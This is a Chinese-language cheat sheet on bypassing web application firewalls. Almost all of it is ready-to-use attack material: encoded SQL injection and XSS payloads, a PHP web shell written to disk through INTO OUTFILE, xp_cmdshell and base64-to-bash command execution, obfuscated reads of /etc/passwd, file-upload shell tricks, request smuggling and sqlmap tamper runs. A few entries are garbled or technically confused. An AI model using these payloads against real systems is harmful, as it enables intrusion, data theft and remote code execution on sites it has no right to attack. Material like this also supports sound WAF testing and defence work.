

# WAF绕过全技巧

> 从编码混淆到协议级绕过，全面掌握WAF绕过技术

---

## 一、WAF基础

### 1.1 WAF类型

| 类型 | 部署位置 | 特点 | 绕过难度 |
|:----|:---------|:-----|:---------|
| 云WAF | CDN边缘 | Cloudflare/AWS WAF/Azure WAF/阿里云WAF | 中 |
| 硬件WAF | 网络入口 | F5/Imperva/Fortinet/绿盟/启明星辰 | 高 |
| 软件WAF | Web服务器 | ModSecurity/NAXSI/OpenResty | 中-高 |
| 主机WAF | 服务器本地 | ModSecurity(嵌入式)/第三方模块 | 低-中 |
| 框架WAF | 应用内部 | Java/.NET/PHP内置过滤器 | 低-中 |

### 1.2 检测机制



### 1.3 常见检测模式

| 检测类型 | 检测内容 | 绕过思路 |
|:---------|:---------|:---------|
| 关键词 | `SELECT`, `UNION`, `DROP`, `<script>` | 编码/拆分/替换 |
| 操作符 | `=`, `--`, `#`, `OR`, `AND` | 等价替换/注释 |
| 函数名 | `load_file`, `xp_cmdshell`, `eval` | 大小写/编码 |
| 模式 | SQL语法结构 | 注释/换行/HPP |
| 频率 | 请求速率 | 慢速/分布式 |
| 来源IP | 单IP请求 | 代理/CDN切换 |
| 内容类型 | Content-Type | 修改MIME类型 |

---

## 二、通用绕过技术

### 2.1 编码绕过

#### URL编码

```sql
# 基础URL编码
SELECT → %53%45%4C%45%43%54
' → %27
空格 → %20 或 +
# → %23
-- → %2D%2D

# 双重URL编码
%27 → %2527 (URL编码后的%再编码)
SELECT → %2553%2545%254C%2545%2543%2554

# 示例: 简单SQL注入
原始: ' OR 1=1 --
URL编码: %27%20%4F%52%20%31%3D%31%20%2D%2D
双重编码: %2527%2520%254F%2552%2520%2531%253D%2531%2520%252D%252D
```

#### Unicode编码

```sql
# Unicode编码绕过
SELECT → %u0053%u0045%u004C%u0045%u0043%u0054
' → %u0027 (或 %u02b9)
# → %u0023

# Unicode变体绕过
S → \u0053 或 \u0073 或 \uff33
E → \u0045 或 \u0065 或 \uff25

# 示例
\u0053\u0045\u004c\u0045\u0043\u0054 * \u0046\u0052\u004f\u004d users
```

#### Hex编码

```sql
# Hex编码字符串
'admin' → 0x61646D696E
'1=1' → 0x313D31

# Hex编码查询
SELECT * FROM users WHERE username = 0x61646D696E

# 绕过WAF对引号的检测
原始: ' OR 1=1 --
绕过: OR 1=1 -- (如果参数是数字)
或: SELECT * FROM users WHERE id = 0x31206F7220313D312D2D
```

#### Base64编码

```sql
# Base64编码 (部分WAF可解码检测)
SELECT → U0VMRUNU
' OR 1=1 -- → JyBPUiAxPTEgLS0g

# 使用TO_BASE64/FROM_BASE64 (MySQL 5.6+)
SELECT FROM_BASE64('JyBPUiAxPTEgLS0=')

# 使用解密函数编码
SELECT AES_DECRYPT('...')
```

#### HTML实体编码

```html
# XSS绕过
<script> → &lt;script&gt;
<script>alert(1)</script> → &#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;alert(1)&#60;/script&#62;

# 十进制实体
< → &#60;
> → &#62;
" → &#34;
' → &#39;

# 十六进制实体
< → &#x3C;
> → &#x3E;
```

### 2.2 大小写混淆

```sql
# 大小写混合
UnIoN SeLeCt → 部分WAF不检测大小写混合
SeLeCt * FrOm Users WhErE Id = 1

# 随机大小写批量生成
import random
def random_case(s):
    return ''.join(random.choice([c.upper(), c.lower()]) for c in s)

payload = "SELECT * FROM users WHERE id = 1 OR '1'='1'"
print(random_case(payload))
# sElEcT * FrOm uSeRs wHeRe iD = 1 Or '1'='1'
```

### 2.3 注释绕过

```sql
# 内联注释
/**/ 替代空格
SELECT/**/*/**/FROM/**/users/**/WHERE/**/id=1

# 多段注释
SEL/**/ECT * FR/**/OM users
UN/**/ION SEL/**/ECT 1,2,3

# 嵌套注释 (MySQL)
/*!SELECT*/ * FROM users
/*!50000SELECT*/ 1,2,3

# 注释中的SQL (MySQL特有)
SELECT * FROM users WHERE id=1 /*!UNION*/ /*!SELECT*/ 1,2,3

# 注释分割关键字
U/**/NION/**/SEL/**/ECT → 绕过简单正则

# 特殊注释
# 使用 -- 加任意字符 (MySQL)
SELECT * FROM users-- a
# 使用 # (MySQL)
SELECT * FROM users WHERE id=1#

# 注释插入函数名
CONV(/*!123*/1,1,1)
```

### 2.4 双重参数/HPP

```http
# HTTP参数污染 (HPP)
# 多个同名字段 → 不同后端处理方式不同

# ASP.NET: 用逗号连接
?id=1&id=2&id=3 → id = "1,2,3"

# PHP/JSP: 最后一个覆盖
?id=1&id=2&id=3 → id = "3"

# ASP/IIS: 用逗号连接
?id=1&id=2&id=3 → "1,2,3"

# WAF绕过示例
?id=1&id=0 UNION SELECT username,password FROM users
# WAF检查第一个id=1（安全）, 后端用第二个id值

# 参数数组注入 (PHP)
?id[]=1&id[]=0 UNION SELECT... → WAF可能忽略数组参数
```

### 2.5 HTTP方法覆盖

```http
# X-HTTP-Method-Override
GET /api/delete HTTP/1.1
X-HTTP-Method-Override: DELETE
Host: target.com

# 其他覆盖方法
X-HTTP-Method: DELETE
X-METHOD-OVERRIDE: DELETE
X-HTTP-Method-Override: PATCH

# 原始请求：GET（WAF放行）
# 实际处理：DELETE（WAF未检测）
```

### 2.6 Content-Type欺骗

```http
# 修改Content-Type绕过
# 原始：
Content-Type: application/x-www-form-urlencoded
# 修改：
Content-Type: application/json
Content-Type: text/plain
Content-Type: multipart/form-data; boundary=---BOUNDARY

# 添加charset
Content-Type: application/x-www-form-urlencoded; charset=utf-8

# 使用Multipart上传
POST /search HTTP/1.1
Content-Type: multipart/form-data; boundary=---BOUNDARY

---BOUNDARY
Content-Disposition: form-data; name="id"

1 UNION SELECT...
---BOUNDARY--
```

### 2.7 空格/分隔符替换

```sql
# 替换空格
SELECT+*+FROM+users+WHERE+id=1    -- +号
SELECT%09*%09FROM%09users         -- 水平制表符
SELECT%0a*%0aFROM%0ausers         -- 换行
SELECT%0d*%0dFROM%0dusers         -- 回车
SELECT%0c*%0cFROM%0cusers         -- 换页
SELECT/**/*/**/FROM/**/users      -- 注释

# 混合使用
SELECT%09*%0aFROM%0dusers

# Tab替代
SELECT	*	FROM	users	WHERE	id=1

# 括号包围 (无空格)
SELECT(id)FROM(users)WHERE(id)=1
UNION(SELECT(1),(2),(3))
```

### 2.8 等价替换

```sql
# 逻辑操作符替换
OR  → || (部分数据库)
AND → &&
=   → LIKE / IN / BETWEEN / REGEXP
1=1 → 'a'='a' / 1 LIKE 1 / 1 IN (1)

# 比较运算符
>  → NOT BETWEEN 0 AND #
<  → BETWEEN -99999 AND #
<> → != / NOT =

# 字符串函数
SUBSTRING → SUBSTR / MID
CONCAT → CONCAT_WS / GROUP_CONCAT
LENGTH → LEN / CHAR_LENGTH

# 版本检测
@@version → VERSION() / @@VERSION
database() → SCHEMA() / CURRENT_DATABASE()
```

### 2.9 请求分割/分块

```http
# CRLF注入 (如果WAF不检查响应头)
%0d%0a → 换行注入

# 分块传输编码 (Chunked Transfer Encoding)
Transfer-Encoding: chunked

POST /search HTTP/1.1
Host: target.com
Transfer-Encoding: chunked

8
id=1
d
 UNION SEL
4
ECT
7
 1,2,3
0

# HTTP参数分割 (CRLF绕过)
id=1%0d%0aUnion:%20Select
```

### 2.10 超大数据绕过

```http
# 大Body绕过
POST /search HTTP/1.1
Content-Length: 100000

[padding 10000 bytes] 1 UNION SELECT username,password FROM users

# 大Header绕过
Cookie: [超长随机字符串]
X-Forwarded-For: [超长IP列表]

# 大文件上传绕过
Content-Type: multipart/form-data; boundary=----BOUNDARY
Content-Length: 5000000

[大文件填充] [恶意payload在最后]
```

---

## 三、SQL注入WAF绕过

### 3.1 关键字替换

```sql
# UNION绕过
UNION SELECT → UN/**/ION SEL/**/ECT
UNION SELECT → %55%4E%49%4F%4E%20%53%45%4C%45%43%54

# 注释结束
-- → # → /**/  → ;%00

# INFORMATION_SCHEMA绕过
INFORMATION_SCHEMA → INFORMATION_SCHEMA -- 大小写混合
INFORMATION_SCHEMA → infORMAtion_schEMA
INFORMATION_SCHEMA → information_schema
INFORMATION_SCHEMA → sys.schema_table_statistics_with_buffer

# 关键字替换
OR → ||
AND → &&
SELECT → 不写SELTECT而是用子查询
FROM → (子查询)
WHERE → HAVING / GROUP BY / LIMIT
```

### 3.2 MySQL特有绕过

```sql
# 十六进制字符串
SELECT * FROM users WHERE username = 0x61646D696E

# INTO OUTFILE 绕过
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"

# LOAD_FILE 绕过
SELECT LOAD_FILE('/etc/passwd')

# 报错注入绕过 (不直接返回结果)
SELECT COUNT(*),CONCAT((SELECT @@version),FLOOR(RAND()*2))as a FROM information_schema.tables GROUP BY a

# 布尔盲注绕过
' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1
```

### 3.3 SQL Server绕过

```sql
# 声明变量注入
; DECLARE @s NVARCHAR(4000) SET @s='SELECT' EXEC(@s)

# OpenDataSource/OpenRowSet
SELECT * FROM OPENDATASOURCE('SQLOLEDB','Data Source=Target;User ID=sa;Password=pass').master.dbo.sysdatabases

# xp_cmdshell 绕过
EXEC xp_cmdshell 'whoami'
EXEC master..xp_cmdshell 'whoami'

# 分号绕过
'; EXEC xp_cmdshell 'whoami' --
```

### 3.4 时间盲注绕过

```sql
# MySQL
AND SLEEP(5)
AND BENCHMARK(10000000,MD5(1))

# PostgreSQL
AND pg_sleep(5)

# SQL Server
WAITFOR DELAY '0:0:5'

# MongoDB
?parameter=1&sleep=5000
```

### 3.5 堆叠查询绕过

```sql
# 分号堆叠 (部分WAF不分号检查)
SELECT * FROM users; SELECT * FROM admin
SELECT * FROM users; DROP TABLE logs
SELECT * FROM users; INSERT INTO users VALUES(666,'hacker','pass')
```

---

## 四、XSS WAF绕过

### 4.1 标签属性绕过

```html
# 事件处理器大小写
onload → onLoad → OnLoad → ONLOAD
onerror → onError → ONERROR

# 新事件处理器绕过
onfocus → onfocusin → onactivate
onmouseover → onmouseenter → onmouseleave

# 无事件XSS (利用CSS)
<body style="background:url(javascript:alert(1))">
<svg onload="alert(1)">
<details/open/ontoggle="alert(1)">
```

### 4.2 标签闭合绕过

```html
# 未闭合标签


# 自闭合
<script>alert(1)</script>
<script src=data:,alert(1)></script>
```

### 4.3 伪协议绕过

```javascript
# 多种伪协议
javascript: → javasc&#x72;ipt:
data:text/html → data:text/html;base64,
vbscript: → vbscript:

# 编码伪协议
jav&#x61;script:alert(1)
&#x6A;avascript:alert(1)

# 利用空格/Tab/换行
java\tscript:alert(1)
java\nscript:alert(1)
java\tscript:\talert(1)
```

### 4.4 编码绕过

```html
# HTML实体编码

<svg onload="&#x61;&#x6C;&#x65;&#x72;&#x74;(1)">

# JavaScript编码
\61 → a
\x61 → a
\u0061 → a
\154 → l (八进制)

# eval执行编码
eval('alert(1)')
eval(atob('YWxlcnQoMSk='))
eval(String.fromCharCode(97,108,101,114,116,40,49,41))
```

### 4.5 DOM-based XSS绕过

```javascript
# location.hash绕过
# WAF不检查hash部分
http://target.com/page.html#<script>alert(1)</script>

# document.cookie利用
document.cookie = "x=<script>alert(1)</script>"

# document.write
document.write(location.hash.substring(1))

# eval/innerHTML绕过
eval(atob('YWxlcnQoMSk='))
element.innerHTML = atob('PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==')
```

### 4.6 CSP绕过

```html
# 如果script-src允许特定CDN
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.js"></script>

# 如果允许JSONP端点
<script src="https://api.google.com/..." callback=alert(1)>

# 如果允许Base64
<link rel="stylesheet" href="data:text/css,@import url('https://evil.com/xss.css')">

# DNS Prefetch绕过meta标签
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://attacker.com">

# 利用File协议
<iframe src="file:///etc/passwd">
```

---

## 五、命令注入WAF绕过

### 5.1 Shell元字符替换

```bash
# 命令分隔符
;  → 分号连接
|  → 管道
|| → 或条件
&  → 后台运行
&& → 与条件
`  → 命令替换
$() → 命令替换 (Bash)

# 换行符分割
\n → %0A
\r\n → %0D%0A

# 特殊绕过
cat /etc/passwd | base64
cat$(IFS)/etc$(IFS)passwd
```

### 5.2 参数混淆

```bash
# 拼接参数
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd

# 无空格绕过
{cat,/etc/passwd}
cat</etc/passwd
cat<>/etc/passwd

# 反斜杠断字
c\a\t /e\tc/p\a\ss\wd
```

### 5.3 Base64绕过

```bash
# 编码命令执行
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash

# Python
python3 -c "import base64,sys;exec(base64.b64decode('Y21k'))"

# Perl
perl -e "eval(decode_base64('...'))"

# 利用变量
a=Y2F0OyBldGMvcGFzc3dk
b=${a//;/ /}
echo $b | base64 -d
```

### 5.4 环境变量绕过

```bash
# 使用变量切割
$0 → bash/sh
$9 → 空参数（充当分隔符）
$@ → 所有参数
$* → 所有参数（单个字符串）

# 切割字符串
${PATH:0:1} → /
${HOME:0:1} → /
${LS_COLORS::1} → 各种字符截取

# 变量拼接
a=c;b=at;$a$b /etc/passwd
p='/etc';f='passwd';cat $p/$f
```

### 5.5 通配符绕过

```bash
# ? 匹配单个字符
cat /etc/pass?d
cat /etc/?asswd
cat /???/pass?d

# * 匹配任意
cat /etc/p*
cat /e*/p*
cat /???/p?????

# [] 字符集
cat /etc/p[a]sswd
cat /etc/[p]asswd
```

---

## 六、文件包含/上传绕过

### 6.1 文件包含绕过

```php
# PHP协议
php://filter/convert.base64-encode/resource=config.php
php://input (POST数据)
php://filter/read=convert.base64-encode/resource=/etc/passwd
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pg==

# 路径遍历
../../../../etc/passwd
....//....//....//etc/passwd
../../../windows/win.ini

# 空字节截断 (%00)
../../../etc/passwd%00
config.php%00.txt
```

### 6.2 文件上传绕过

```http
# Content-Type修改
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: application/pdf

# 双重扩展名
shell.php.jpg
shell.php;.jpg
shell.php%00.jpg
shell.asp;.jpg
shell.asp.jpg

# Magic Number添加
GIF89a
\xFF\xD8\xFF\xE0  (JPEG header)
\x89PNG

# 文件头添加
GIF89a<?php system($_GET['cmd']); ?>
```

---

## 七、WAF指纹绕过

### 7.1 Cloudflare绕过

```bash
# 寻找真实IP
# 1. 子域名绕过CDN
subfinder -d target.com | httpx -cdn -silent

# 2. DNS历史记录
curl -s "https://securitytrails.com/domain/target.com/history/a"

# 3. SSL证书
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value'

# 4. 邮件头
# 注册页面 → 确认邮件 → 查看原始IP

# 5. Shodan
shodan search "hostname:target.com"

# 6. Cloudflare的IP地址范围
# 直接请求IP地址（绕过CDN）
```

### 7.2 ModSecurity绕过

```http
# 请求体过大
POST /search HTTP/1.1
Content-Length: 50000000
X-Forwarded-For: 127.0.0.1

# HTTP/0.9请求
GET /search?q=1 UNION SELECT...\r\n\r\n

# 请求走私
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED_REQUEST
```

### 7.3 分布式绕过

```bash
# IP轮换
# 使用代理池
proxychains4 sqlmap -u "http://target.com?id=1" --tamper=space2comment

# Tor
sqlmap -u "http://target.com?id=1" --tor --tor-type=SOCKS5

# 慢速注入
sqlmap -u "http://target.com?id=1" --delay=5
sqlmap -u "http://target.com?id=1" --safe-freq=10
```

---

## 八、自动化绕过工具

### 8.1 SQLMap Tamper脚本

```bash
# 常用Tamper
sqlmap -u "http://target.com?id=1" --tamper=space2comment
sqlmap -u "http://target.com?id=1" --tamper=between
sqlmap -u "http://target.com?id=1" --tamper=charencode
sqlmap -u "http://target.com?id=1" --tamper=charunicodeencode
sqlmap -u "http://target.com?id=1" --tamper=equaltolike
sqlmap -u "http://target.com?id=1" --tamper=greatest
sqlmap -u "http://target.com?id=1" --tamper=halfversionedmorekeywords
sqlmap -u "http://target.com?id=1" --tamper=ifnull2casewhenisnull
sqlmap -u "http://target.com?id=1" --tamper=modsecurityversioned
sqlmap -u "http://target.com?id=1" --tamper=modsecurityzeroversioned
sqlmap -u "http://target.com?id=1" --tamper=multiplespaces
sqlmap -u "http://target.com?id=1" --tamper=percentage
sqlmap -u "http://target.com?id=1" --tamper=randomcomments
sqlmap -u "http://target.com?id=1" --tamper=unionalltounion
sqlmap -u "http://target.com?id=1" --tamper=uppercase
sqlmap -u "http://target.com?id=1" --tamper=versionedkeywords

# 组合Tamper
sqlmap -u "http://target.com?id=1" --tamper="space2comment,between,randomcase"
sqlmap -u "http://target.com?id=1" --tamper="between,charencode,modsecurityversioned"
```

### 8.2 WAF识别工具

```bash
# wafw00f
wafw00f https://target.com -a

# WhatWaf
python whatwaf.py -u https://target.com

# 手动检测
# Cloudflare: 请求头包含 cf-ray
# Cloudfront: X-Amz-Cf-Id
# Akamai: X-Akamai-Transformed
# F5: X-Content-Type-Options
# ModSecurity: 413 Request Entity Too Large
```

### 8.3 推荐绕过工具

| 工具 | 用途 | 链接 |
|:----|:-----|:-----|
| SQLMap | SQL注入+自动绕过 | sqlmap.org |
| Burp Suite | Web代理+手动绕过 | portswigger.net |
| wafw00f | WAF识别 | github.com/EnableSecurity/wafw00f |
| WhatWaf | WAF识别+绕过 | github.com/Ekultek/WhatWaf |
| Chunked Transfer | 分块传输绕过 | burp插件 |
| JsPrime | JS去混淆 | github.com/dpnishant/jsprime |

---

> **参考资源**
>
> - OWASP WAF Bypass Cheatsheet
> - HackTricks WAF Bypass
> - PayloadsAllTheThings WAF Bypass
> - SQLMap Tamper Scripts
> - PortSwigger Research Blog


[OWASP Top 10 速查表](08-owasp-top10.md)